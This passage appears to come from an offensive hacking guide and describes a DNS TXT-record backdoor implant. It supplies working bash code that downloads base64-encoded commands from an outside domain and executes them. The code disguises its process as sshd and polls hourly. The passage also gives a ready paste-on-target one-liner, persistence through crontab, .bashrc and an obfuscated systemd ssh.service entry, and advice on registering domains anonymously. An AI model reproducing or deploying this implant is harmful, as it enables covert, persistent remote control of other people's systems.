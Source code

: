 The implant requests the payload via a DNS TXT-request from the domain `b00m.team-teso.net`. When triggered, it creates `/tmp/.b00m` and notifies THC (via an app.interactsh.com callback). *Please* use your own domain and also create your own payload. Example:
```shell
echo -n '@system("{ id; date;}>/tmp/.b00m 2>/dev/null");' |base64 -w0
```

- The DNS TXT payload is limited to 2,048 characters (sometimes 65,535 characters).
- The implant is a `bootloader`. Use a while loop to download and execute larger paypload via DNS.
- Check out our favorite places to [register a domain anonymously](#pub). [Cloudflare's](https://www.cloudflare.com) Free-Tier is a good start.

Can also be triggered via `~/.bashrc` or the user's crontab. Use (example):
```shell
# Use a "double bash" to redirect _also_ $()-subshell error to /dev/null:
bash -c 'exec bash -c "{ $(dig +short b00m2.team-teso.net TXT|tr -d \ \"|base64 -d);}"'&>/dev/null
```

An elaborate DNS reverse backdoor (as a daemon and living-off-the-land):
- Depends on bash, dig and base64 only.
- Hides as `sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups`
- Requests a DNS TXT record every 60 minutes (from b00m2.team-teso.net).
- Base64-decodes the TXT record and executes the command on the target. (the test command creates /tmp/.b00m).

1. Generate a 1-line implant:

```shell
base64 -w0 >x.txt <<-'EOF'
D=b00m2.team-teso.net
P="sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"
M=/dev/shm/.cache${UID}
[ -f $M ]&&exit
touch $M
(echo 'slp(){ local IFS;[ -n "${_sfd:-}" ]||exec {_sfd}<> <(:);read -t$1 -u$_sfd||:;}
slp 1
while :; do
	dig +short '"$D"' TXT|tr -d \ \"|base64 -d|bash
	slp 3600
done'|exec -a "$P" bash &) &>/dev/null
EOF
echo "===> Execute the following on the target:"$'\n\033[0;36m'"echo $(<x.txt)|base64 -d|bash"$'\033[0m'
rm -f x.txt
```

Cut & paste the 1-line implant into the target:
```
echo RD1iMDBtMi50ZWFtLXRlc28ubmV0ClA9InNzaGQ6IC91c3Ivc2Jpbi9zc2hkIC1EIFtsaXN0ZW5lcl0gMCBvZiAxMC0xMDAgc3RhcnR1cHMiCk09L2Rldi9zaG0vLmNhY2hlJHtVSUR9ClsgLWYgJE0gXSYmZXhpdAp0b3VjaCAkTQooZWNobyAnc2xwKCl7IGxvY2FsIElGUztbIC1uICIke19zZmQ6LX0iIF18fGV4ZWMge19zZmR9PD4gPCg6KTtyZWFkIC10JDEgLXUkX3NmZHx8Ojt9CnNscCAxCndoaWxlIDo7IGRvCmRpZyArc2hvcnQgJyIkRCInIFRYVHx0ciAtZCBcIFwifGJhc2U2NCAtZHxiYXNoCnNscCAzNjAwCmRvbmUnfGV4ZWMgLWEgIiRQIiBiYXNoICYpICY+L2Rldi9udWxsCg==|base64 -d|bash
```

2. Add the 1-line implant to any startup script on the target (use crontab, ~/.bashrc, [udev](https://www.aon.com/en/insights/cyber-labs/unveiling-sedexp) or `ExecStartPre=`). Here is a clever example for */usr/lib/systemd/system/ssh.service* (with some additional obfuscation):
```
...
[Service]
EnvironmentFile=-/etc/default/ssh
Environment="SSHD=echo RD1iMDBtMi50ZWFtLXRlc28ubmV0ClA9InNzaGQ6IC91c3Ivc2Jpbi9zc2hkIC1EIFtsaXN0ZW5lcl0gMCBvZiAxMC0xMDAgc3RhcnR1cHMiCk09L2Rldi9zaG0vLmNhY2hlJHtVSUR9ClsgLWYgJE0gXSYmZXhpdAp0b3VjaCAkTQooZWNobyAnc2xwKCl7IGxvY2FsIElGUztbIC1uICIke19zZmQ6LX0iIF18fGV4ZWMge19zZmR9PD4gPCg6KTtyZWFkIC10JDEgLXUkX3NmZHx8Ojt9CnNscCAxCndoaWxlIDo7IGRvCmRpZyArc2hvcnQgJyIkRCInIFRYVHx0ciAtZCBcIFwifGJhc2U2NCAtZHxiYXNoCnNscCAzNjAwCmRvbmUnfGV4ZWMgLWEgIiRQIiBiYXNoICYpICY+L2Rldi9udWxsCg==|base64 -d|bash"
ExecStartPre=-bash -c 'eval $SSHD'
```